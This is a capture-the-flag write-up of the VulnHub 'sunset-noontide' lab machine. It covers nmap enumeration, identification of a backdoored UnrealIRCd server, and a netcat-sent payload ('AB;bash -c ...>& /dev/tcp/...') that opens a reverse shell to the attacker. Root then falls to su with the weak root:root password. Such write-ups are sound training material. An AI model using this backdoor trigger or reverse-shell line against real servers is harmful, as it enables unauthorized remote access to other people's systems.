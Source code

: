 ```yaml
---
layout: post
author: H4
---
```


[Details](https://www.vulnhub.com/entry/sunset-noontide,531/)

# enumeration
Performing a simple `nmap` scan to identify the attack surface.

## nmap
```bash
$ nmap -Pn 192.168.156.120                                                                                                                                                                                                            1 ⨯
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-03 00:38 EST
Nmap scan report for 192.168.156.120
Host is up (0.027s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT     STATE SERVICE
6667/tcp open  irc

Nmap done: 1 IP address (1 host up) scanned in 1.71 seconds
```

```bash
$ nmap -Pn -p6667 -sV 192.168.169.120
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-02 16:18 EST
Nmap scan report for 192.168.169.120
Host is up (0.11s latency).

PORT     STATE SERVICE VERSION
6667/tcp open  irc     UnrealIRCd
Service Info: Host: irc.foonet.com
```

Only an `IRC` service could be identified.

---

# exploitation
## scan for vulnerabilities
```bash
$ nmap -Pn -p6667 --script="irc*" 192.168.156.120
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-03 00:39 EST
Nmap scan report for 192.168.156.120
Host is up (0.025s latency).

PORT     STATE SERVICE
6667/tcp open  irc
|_irc-unrealircd-backdoor: Looks like trojaned version of unrealircd. See http://seclists.org/fulldisclosure/2010/Jun/277

Nmap done: 1 IP address (1 host up) scanned in 17.52 seconds
```

```bash
$ searchsploit unrealirc backdoor
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                            |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
UnrealIRCd 3.2.8.1 - Backdoor Command Execution (Metasploit)                                                                                                                                              | linux/remote/16922.rb
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

> The installed `IRC` server seems to be backdoored!
{: .prompt-info}

Reviewing the source code of the `metasploit` module reveals that a simple payload can be used to access the backdoor.  
![image](/images/sunsetnoontide1.png)

## get reverse shell
payload: ```AB;bash -c 'bash -i >& /dev/tcp/192.168.49.156/80 0>&1'```

### start listener on attacking machine
```bash
$ nc -lvp 80  
listening on [any] 80 ...
```

### trigger backdoor
```bash
$ nc 192.168.156.120 6667                             
:irc.foonet.com NOTICE AUTH :*** Looking up your hostname...
:irc.foonet.com NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
AB;bash -c 'bash -i >& /dev/tcp/192.168.49.156/80 0>&1'
```

### catch connect from target
```bash
$ nc -lvp 80  
listening on [any] 80 ...
192.168.156.120: inverse host lookup failed: Unknown host
connect to [192.168.49.156] from (UNKNOWN) [192.168.156.120] 48232
bash: cannot set terminal process group (396): Inappropriate ioctl for device
bash: no job control in this shell
server@noontide:~/irc/Unreal3.2$ whoami
whoami
server
```

---

# post exploitation
## get first flag
```bash
server@noontide:~$ cd /home/server
server@noontide:~$ ls
ls
irc
local.txt
server@noontide:~$ cat local.txt
cat local.txt
4******************************9
```

## privilege escalation

> The account `root` uses wek credentials: `root:root`.
{: .prompt-info}

```bash
server@noontide:~/irc/Unreal3.2$ su root
root@noontide:~/irc/Unreal3.2# whoami
whoami
root
```

---

## second flag
```bash
root@noontide:/tmp# cd /root
cd /root
root@noontide:~# ls
ls
proof.txt
root@noontide:~# cat proof.txt
cat proof.txt
3******************************2
```

Pwned! <@:-)

